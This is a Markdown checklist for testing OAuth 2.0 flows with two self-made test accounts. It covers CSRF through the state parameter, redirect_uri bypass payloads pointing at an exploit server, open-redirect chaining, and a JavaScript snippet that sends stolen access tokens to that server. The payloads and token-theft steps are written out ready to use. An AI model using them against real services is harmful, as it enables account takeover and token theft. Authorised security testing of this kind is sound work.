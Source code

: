 # OAuth 2.0 Testing Checklist

Start by creating two accounts on your target of choice. Let's call one victim and one attacker. 

## Recon

1) Once you've located an OAuth flow on the app, connect one of your accounts and make sure the flow get's captured in the history. What kind of flow is it using? Code grant, or implicit grant? Something else?
2) If you find that it's using the Implicit Grant flow, try to identify the POST request which sends the credentials. Can you modify the email to your victim account and get connecting to their account instead of yours? If not, move on. 
3) Check to see if `/.well-known/oauth-authorization-server` or `/.well-known/openid-configuration` endpoints exist on the OAuth provider (not the content provider). This may give you key information in a JSON response body. Save anything interesting you may find and move on. 

## Testing for CSRF account takeover

1) Check to see if there's a state= parameter. If not, you may be able to initiate an OAuth CSRF. **I believe this is only applicable if you can sign in via email/password OR linking a social media account. You need a way to create an attacker account but still have an option to link a social media profile to it.**
	 - Create an account using your attacker's email and a password. Do not link a social media profile. Do the same for the victim account. 
	 - Locate where you can link a social media profile and initiate the flow, making sure Intercept is on in the Burp Proxy. 
	 - Once you arrive at the request containing all the OAuth parameters, send it to Repeater, drop the request, and stop capturing traffic in the proxy.
	 - Now make the captured request with your victim instead of the attacker who initiated the flow. 
	 - Try logging in again as the attacker and see if you have access to the victim's account. If so, bingo. **Keep in mind that for this to work you would need a victim account to also have created an account via password and not have linked a social media profile yet. The idea is getting your social media account associated with their password-based account.**
2) Even if the state= parameter exists, try the same steps as above, but remove the parameter. Perhaps if it's removed it will simply be ignored.Try a third time but the value of the state parameter by one char. Maybe it's not actually validating the state parameter. In either case you found a vulnerable instance.

	**If the only option to log in is via OAuth, the state parameter is less critical, but you may be able to trick a victim into logging in to your account. YMMV**

## Testing the redirect_uri

In this example, we will use http://wearelucid.io as the exploit server. 

1) Authenticate your victim email to the application via OAuth. This attack only works on victims who have valid OAuth credentials. Make sure you take note of all requests and responses, especially the one that sends to code to the OAuth provider. You'll need to manually make this request as the attacker in order to complete the exploit. 
2) As the victim try signing in via OAuth and intercepting the OAuth request containing the request_uri parameter. Send it to the Repeater, drop the request in the Proxy and stop intercepting.
3) Begin testing the validation of the request_uri parameter. Try these tests...
	- Changing the value of the request_uri parameter to an entirely different server that you control (Burp collaborator or a VPS) but with the same oauth directory
	- Try keeping the original redirect_uri, but appending a second one with your exploit server `redirect_uri=https://valid.server.com/oath-callback&redirect_uri=http://wearelucid.io/oauth-callback`
	- Try appending values onto the end of the valid redirect uri parameter. Typical SSRF bypasses are good to try...

		```
		redirect_uri=https://valid.server.com/oauth-callback&http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback#http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback?http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback;http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback@http://wearelucid.io
		redirect_uri=https://valid.server.com/oauth-callback.http://wearelucid.io
		```
	or combinations of the above as well

    - Try reversing the above combinations e.g

	```
	redirect_uri=https://wearelucid.io/oauth-callback&@https://valid.server.com
	```

    - Attempt to configure a subdomain on your attack server with the name of the valid server e.g.

	```
	redirect_uri=http://valid.server.com.wearelucid.io/oauth-callback
	```

    - On the off chance that any URI with localhost in it's name is allowed, try this as well

	```
	redirect_uri=http://localhost.wearelucid.io/oauth-callback
	```

4) In addition to the above tests, try changing the response_mode= parameter from query to fragment, or vice versa. You may run into an entirely different validation schema in different modes. For example if you try the response_mode=web_message value, a wider range of subdomains may be allowed in the redirect_uri parameter. If you're feeling ambitious, go through the above bypasses again to see if there is any difference. 

**To prove exploitation**
1) If any of those work, initate an OAuth flow as your victim, capture the request containing the redirect_uri parameter, send it to the repeater, drop the request and stop intercepting. Then, as your victim in a different browser, visit the maliciously crafted URL
2) View your access log on your exploit server to see the stolen code the victim sent to you. As the attacker, copy the code and manually make the request that sends the code to the OAuth provider. Observe that you've logged in as the victim. Good job. 


## Stealing tokens and codes

If none of those bypasses work then the URI validation seems to be solid. At this point you'll want to try directory traversal methods and open redirect chaining. 

1) Try the proper redirect_uri= value, but with a directory traversal to another directory on the same server.
	```
	redirect_uri=https://valid.server.com/oauth-callback/../some/other/directory
	```
2) If that doesn't give you an error it's time to start looking for an open redirect vulnerability, or a URL with a GET parameter that has a reflected XSS on the same host. In the case of an open redirect...
	-  If authorization code, you should be able to just redirect to your own server and in your logs you wll see the code=value
	- If implicit grant you actually have a little more work to do. You will need to host code that extracts the URL fragment because it won't show up in logs. As an example...

	```javascript
	if(!window.location.hash) { 
		document.location = 'https://oauth.server.com/auth?client_id=[id]&redirect_uri=https://valid.server.com/oauth-callback/../open/redirect?path=https://wearelucid.io/exploit.html&response_type=token&nonce=[nonce]&scope=openid%20profile%20email' 
	} else { 
		window.location = '/?hash='+document.location.hash.substr(1) 
	}
	```

**To prove exploitation** 

If it's authorization code flow....

1) As the victim in a different browser, manually visit the vulnerable OAuth request 
	```
	https://oauth.server.com/auth?client_id=[id]&redirect_uri=https://valid.server.com/oauth-callback/../open/redirect?path=https://wearelucid.io/exploit.html&response_type=token&nonce=[nonce]&scope=openid%20profile%20email.
	```
	You should see the code come through in your exploit server log. 
2) As the attacker in a separate browser or tab, send the code you stole to the OAuth provider: 
	```
	https://oauth.server.com/oauth-callback?code=(stolen_code)
	```

If it's implicit grant....

1) Host the above Javascript code on your exploit server (or whatever code you deem works in this situation). 
2) Manually visit the same vulnerable OAuth request as the victim. You should see the access token in the exploit server logs.
3) As the attacker, try to make a request that only the logged in victim should be able to see the response to. Add the stolen code in the `Authorization: Bearer (stolen_code)` header to observer gaining unauthorized access to sensitive functionality.


